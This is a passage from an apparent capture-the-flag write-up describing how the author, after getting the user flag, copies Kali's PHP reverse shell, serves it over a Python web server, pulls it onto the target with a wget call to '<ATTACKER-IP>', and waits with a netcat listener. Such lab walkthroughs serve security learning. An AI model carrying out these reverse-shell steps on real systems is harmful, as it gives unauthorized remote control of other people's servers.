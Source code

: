 <details><summary><b>🏳️Flag: user.txt</b></summary></details><br>

Nice! Now I think **for better running command in the server**, I **upload a reverse shell** script to the server then connect using netcat as it is easy for me. For the reverse shell script to upload, I use the php reverse shell that are included in the Kali Linux which can be found at **"/usr/share/webshells/php/php-reverse-shell.php"**.

So, we just need to copy this file to our folder so that we didnt change the template. Then we need to change the **"IP"** and the **"PORT"** as **our IP and PORT**.
```
$ pwd
~/upload

$ cp /usr/share/webshells/php/php-reverse-shell.php phpreverseshell.php

$ nano phpreverseshell.php
```

![img](reverseshell.png)

Then, **run a web server using Python**:
```
┌──(kali㉿kali)-[~/upload]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Try to **get the script using wget**:
```
Enter Command $wget http://<ATTACKER-IP>/phpreverseshell.php
```

Now, **run the netcat listener** in our machine, then **search for our script in the browser**:
```
┌──(kali㉿kali)-[~/upload]
└─$ nc -lvnp 4444           
listening on [any] 4444 ...
```

![img](browser.png)

